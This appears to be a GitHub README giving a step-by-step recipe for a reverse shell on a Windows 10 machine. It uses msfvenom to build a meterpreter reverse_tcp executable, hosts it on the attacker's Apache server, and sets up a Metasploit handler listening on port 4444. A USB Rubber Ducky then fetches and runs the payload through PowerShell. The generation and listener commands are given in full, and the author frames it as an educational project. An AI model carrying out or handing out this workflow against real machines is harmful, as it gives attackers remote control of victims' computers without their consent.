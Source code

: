 ### Ducky_reverse_tcp_shell
# Uses the metasploit framework and the USB-RubberDucky to create a reverse- shell (without bypassing any AntiMalwareScanner -> not effective)

AttackerMachine: Kali Linux (2022.1)connected to the targets Network

TargetMachine: Windows 10 Home, Windows Defender: off, admin privileges 


## 1. Create a payload to be executes on the target machine.

msfvenom: payload gnerator of the Metasploit framework

payload: windows/meterpreter/reverse_tcp

filetype: .exe (for windows)

Directory: /var/www/html/yourfile.exe 

--> sets the directory of the malicious file to the html directory of my machine. To Host this small server ill use apache2. 

Command: sudo service apache2 start

Command2: msfvenom -p windows/meterpreter/reverse_tcp LHOST your.ip.addr.ess LPORT 4444 -f exe -o /var/www/html/Yourfile.exe

## 2. Setup the listening Machine(Attacker)

msfconsole

msf6: use exploit/multi/handler

msf6: set payload windows/meterpreter/reverse_tcp

msf6: set LHOST and LPORT

msf6: exploit

##3. Ducky Setup:

Encode and flash the DuckyCode file on the Ducky

insert the USB-RubberDucky

--> This payload downloads and executes the hosted .exe file via Powershell. Any AntiMalware Software will recognize this so its jsut a educational project -> Meterpreter session should open in the msfconsole 

### Mission complete
